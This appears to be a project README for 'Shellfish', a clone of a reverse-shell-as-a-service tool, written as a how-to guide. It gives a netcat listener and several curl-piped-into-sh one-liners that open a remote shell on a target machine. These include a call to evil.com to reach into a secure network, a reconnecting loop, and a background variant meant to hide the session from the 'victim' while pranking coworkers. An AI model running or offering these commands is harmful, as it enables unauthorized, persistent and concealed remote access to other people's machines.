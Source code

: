 <div align="center">
	<br>
		<img width="128" src="favicon.ico" alt="keyv">
</div>

# Shellfish - reverse-shell

> Clone of Reverse Shell as a Service - https://reverse-shell.sh.

Easy to remember reverse shell that should work on most Unix-like systems.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://reverse-shell.sh/yourip:port into sh.

```shell
curl https://reverse-shell.sh/192.168.0.69:1337 | sh
```

Go back to your machine, you should now have a shell prompt.

## Demo

<img src="https://i.imgur.com/qqjhxAw.gif" width="808">

## Tips

### Hostname

You can use a hostname instead of an IP.

```shell
curl https://reverse-shell.sh/localhost:1337 | sh
```

### Remote connections

Because this is a reverse connection it can punch through firewalls and connect to the internet.

You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with:

```shell
curl https://reverse-shell.sh/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop.

```shell
while true; do curl https://reverse-shell.sh/yourip:1337 | sh; done
```

Be careful if you do this to a coworker, if they leave the office with this still running you're opening them up to attack.

### Running as a background process

The terminal session needs to be kept open to persist the reverse shell connection. That might be a bit of a giveaway if you're trying to prank coworkers.

The following command will run the reverse shell in a background process and exit the terminal, leaving no suspicious looking terminal windows open on the victim's machine.

Make sure you run this in a fresh terminal window otherwise you'll lose any work in your existing session.

```shell
sh -c "curl https://reverse-shell.sh/localhost:1337 | sh -i &" && exit
```

## License

MIT
